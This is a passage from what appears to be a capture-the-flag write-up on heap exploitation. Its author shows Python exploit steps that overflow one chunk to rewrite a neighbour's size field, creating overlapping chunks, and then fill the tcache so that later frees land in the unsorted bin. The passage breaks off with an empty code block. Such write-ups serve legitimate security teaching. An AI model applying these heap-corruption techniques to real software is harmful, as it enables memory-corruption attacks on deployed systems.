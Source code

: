```
buy_house(3, 0x90, "\xdd" * 0x90)
```
The distribution of the chunks is shown as follows.
![](./index_files/73dffed6-facd-41a0-b481-5e24577c05a3.png)
Then, I use **house 0** to make the overflow to overwrite the size of the chunk at **0x15d0** to **0x8d1**.
```
#overlapping first
upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)
```
![](./index_files/cb48b397-1a45-4758-a87f-5ec40a815ff3.png)
Then, I fill the tcache of size (0x90 + 0x10) up, and I make 4 chunk of this size, which will be free into unsorted bins.
```
```